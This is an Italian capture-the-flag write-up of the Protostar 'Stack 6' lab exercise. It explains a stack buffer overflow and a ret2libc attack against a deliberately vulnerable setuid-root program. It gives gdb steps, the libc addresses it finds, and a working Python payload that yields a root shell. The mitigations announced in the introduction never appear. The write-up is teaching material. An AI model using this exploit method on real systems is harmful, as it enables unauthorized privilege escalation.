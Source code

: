 #### Introduzione
Protostar risulta essere una macchina virtuale contenente esercizi di sicurezza. Precisamente introduce problemi di danneggiamento della memoria di base come “buffer overflow", “format strings” e “sfruttamento dell’heap in un sistema Linux vecchio stile”. Per “vecchio stile” intendiamo un sistema che non presenta alcuna forma di moderni sistemi di mitigazione abilitata.
Per chiarezza, ciascun esercizio corrisponde ad un livello, per un totale di 24 esercizi suddivisi per temi.
In questo documento tratteremo dell’esercizio Stack 6, legato alla tematica “Stack - Based Buffer Overflow”. In particolare, introdurremo l’esercizio in sé, due possibili soluzioni per vincere la CTF e, infine, eventuali mitigazioni da applicare per evitare che l’attacco avvenga con successo.

#### Traccia

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Questo livello può essere fatto in diversi modi. Si consiglia vivamente di sperimentare diversi modi per vincere la sfida.
Obiettivo della sfida: eseguire del codice arbitrario a tempo di esecuzione.
I passi da applicare per arrivare alla soluzione della sfida sono:
1.	Raccolta di informazioni sul sistema.
2.	Aggiornare l’albero d’attacco. 
3.	Individuare un percorso possibile e provare l’attacco.
4.	Se l’attacco riesce, la sfida è vinta. 
5.	Se l’attacco non riesce, ricominciare dal punto 1.

#### Raccolta delle informazioni
Il programma stack6 accetta input locali, ovvero accetta stringhe generiche inviate tramite tastiera o altro processo (pipe).
Inoltre, esaminando i metadati di stack6, attraverso il comando ls -l stack6 scopriamo che ha il bit SETUID acceso a ROOT (quindi eseguire il programma e vincere la sfida ci permette di ottenere i privilegi dell’utente ROOT).

####ret2libC
Ret2libc permette di aggirare il filtro sull’indirizzo di ritorno. La strategia sfrutta il fatto che la libreria libc viene caricata in memoria e utilizzata anche dal programma stesso.
In questo modo, è possibile impostare l'indirizzo di ritorno all'indirizzo di una qualsiasi funzione della libreria C.
Per prendere il controllo del programma useremo la funzione system(). Sovrascriveremo parte dello stack impostato prima di chiamare getpath() e inietteremo manualmente i frame dello stack per chiamare system(). In particolare, sovrascriveremo l'indirizzo di ritorno di getpath() con system(). Il payload da iniettare nel seguente modo:
"padding + system + exit+/bin/sh"
La funzione exit() viene inserita dopo la system() per assicurarsi che il programma termini correttamente dopo l'esecuzione del comando di shell. 
L'invocazione di exit() garantisce che il programma vittima non continui l'esecuzione oltre il punto in cui è stato sovrascritto il puntatore di ritorno. Subito dopo l'indirizzo di exit(), c'è un puntatore a una posizione di memoria che contiene la stringa /bin/sh, che è l'argomento che vogliamo passare alla funzione system().

padding + system + exit + /bin/sh

I caratteri di padding sono utili in quanto sovrascrivono buffer, spazio lasciato dall’allineamento dello stack, EBP salvato, permettendo di arrivare all’indirizzo di ritorno. Per fare ciò vediamo due tecniche:

1.	Prima tecnica utilizza il gdb (GNU Debugger)
GDB è il debugger predefinito di GNU/Linux che permette di visualizzare cosa accade in un programma durante l’esecuzione o al crash. Attraverso GDB, disassembliamo la funzione getpath e osserviamo l’istruzione lea (load effective address). 
L’istruzione lea carica -0x4c(%ebp) in EAX. Quindi la distanza tra l’inizio del buffer destinato a contenere l’input dell’utente e la cella contenente il saved EBP è 0x4c (=76) byte. Poiché la cella contenente il saved EBP è di 4 byte, servono 76+4=80 byte per raggiungere la cella dell’indirizzo di ritorno

2.	La seconda tecnica prevede l’utilizzo di Metaspoitable Framework. In particolare, utilizziamo due tool:
a.	msf-pattern_create: permette di generare pattern di byte personalizzati di lunghezza specifica.
b.	msf-pattern_offset: consente di identificare l'offset di memoria a cui si trova un valore specifico o un puntatore all'interno di un pattern generato con msf-pattern_create.
Dunque, creiamo dapprima il pattern, specificando una lunghezza sufficientemente grande per il nostro scopo (es. 120). Dopodiché, eseguiamo stack6 tramite gdb, quando ci chiede di inserire la path, incolliamo il pattern precedentemente creato.
Otterremo un messaggio di errore con un determinato indirizzo. A questo punto copiamo l’indirizzo ed effettuiamo una query al secondo tool nel seguente modo:

```console
$ msf-pattern_offset -l 120 -q 0x37634136
[*] Exact match at offset 80
```

Poi seguiamo i seguenti passi:
1.	Trovare l’indirizzo di system() tramite gdb. Inseriamo un breakpoint e partiamo con l’esecuzione. Dopodiché eseguiamo:
p system
0xb7ecffb0 <__libc_system>.
2.	Trovare l’indirizzo di exit:
p exit
0xb7ec60c0 <*__GI_exit>
3.	Troviamo /bin/sh all’interno della libc. Prima individuiamo l’indirizzo in cui inizia libc:
(gdb) info proc mapping
libc inizia all’indirizzo 0xb7e97000. Poiché /bin/sh è una stringa in libc, possiamo trovare l'offset dall'inizio del file:
strings -a -t  x /lib/libc-2.11.2.so | grep /bin/sh
11f3bfL /bin/sh
Avendo individuato l’offset, calcoliamo l’indirizzo di /bin/sh
(python) hex(0xb7e97000 + 0x11f3bfL)
'0xb7fb63bf'
4.	Possiamo verificarlo su gdb:
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:  "/bin/sh"

EXPLOIT FINALE:
```console
python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xbf\x63\xfb\xb7'" > /tmp/exploit

(cat /tmp/exploit; cat) | ./stack6
```

Attraverso l’exploit finale riusciamo ad ottenere la shell con i permessi di ROOT e vincere la sfida.

#### Reference
https://exploit.education/protostar/stack-six/
